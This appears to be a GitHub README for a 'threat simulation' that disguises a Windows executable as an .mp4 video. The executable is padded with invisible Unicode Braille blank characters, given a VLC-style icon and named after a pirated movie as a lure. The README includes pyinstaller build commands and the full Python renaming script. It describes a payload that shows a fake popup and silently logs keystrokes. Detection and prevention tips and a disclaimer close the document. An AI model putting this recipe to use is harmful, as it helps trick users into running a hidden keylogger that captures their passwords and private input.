

# 🦠 Braille Extension Evasion – Threat Simulation

## 📁`braille_extension`

A threat simulation showcasing how attackers can use Unicode Braille Pattern Blank characters (U+2800) to disguise `.exe` files as media files like `.mp4`. This evasion technique abuses double extensions and icon spoofing to deceive users and bypass casual inspection.

---

## 🎯 Objective

Simulate a Windows executable that:

1. Appears as a video file (e.g., `.mp4`) using a double extension
2. Uses invisible Braille characters to push the real extension out of view
3. Embeds a VLC-like icon
4. Executes a popup message for 5 seconds
5. Silently starts a keylogger that logs all keystrokes to `keylogs.txt`

---

## 🔧 Setup & Compilation

### 1️⃣ `logger.py` — The payload script

This Python script:

* Displays a VLC-style popup
* Silently logs keystrokes (non-repeating) to a local file

```bash
pip install pynput pyinstaller
pyinstaller --onefile --noconsole --icon=vlc.ico logger.py
```

✅ Output: `dist/logger.exe`
, rename this executable to whatever movie name you prefer

---

### 2️⃣ `rename_braille.py` — Rename with Braille Padding

This script renames the executable with a fake `.mp4` extension, adds Braille padding, and keeps `.exe` at the end.

```python
import os, shutil

def rename_with_icon_safe_braille(original_file, fake_ext="mp4"):
    braille_blank = "\u2800"
    real_ext = ".exe"
    base_name = os.path.splitext(os.path.basename(original_file))[0]
    fake_prefix = f"{base_name}.{fake_ext}"

    max_filename_length = 200
    padding_space = max_filename_length - len(fake_prefix) - len(real_ext)
    braille_padding = braille_blank * max(0, padding_space)
    new_name = f"{fake_prefix}{braille_padding}{real_ext}"

    new_path = os.path.join(os.getcwd(), new_name)
    shutil.copy2(original_file, new_path)
    print(f"[\u2713] File copied and renamed to: {new_path}")
```

Run:

```bash
python rename_braille.py
```

✅ Output: `Mission Impossible – The Final Reckoning 1080p WebRIP HEVC x256 Double Audio.mp4⠀⠀⠀⠀⠀⠀⠀⠀.exe`

---

## 🧪 Execution Result

Upon double-clicking the renamed file:

1. A fake VLC popup is shown for 5 seconds.
2. Keystrokes typed by the user are silently logged to `keylogs.txt`.

📁 `keylogs.txt` will appear in the same directory.

🎥 **PoC**: 



## 🕵️ Detection & Awareness

### 🔍 Detection:

* Monitor for double extension files (`.mp4.exe`, `.pdf.exe`)
* Inspect for Unicode characters like `U+2800` in filenames
* Alert on filenames with >150 characters or suspicious whitespace

### 🛡️ Prevention:

* Enable display of file extensions in Windows
* Use endpoint protection that inspects filename Unicode blocks
* Block execution of files from `Downloads` or temp locations
* Educate users on misleading file names

> ⚠️ This simulation is created strictly for awareness and defensive research. Do not deploy in production or misuse.
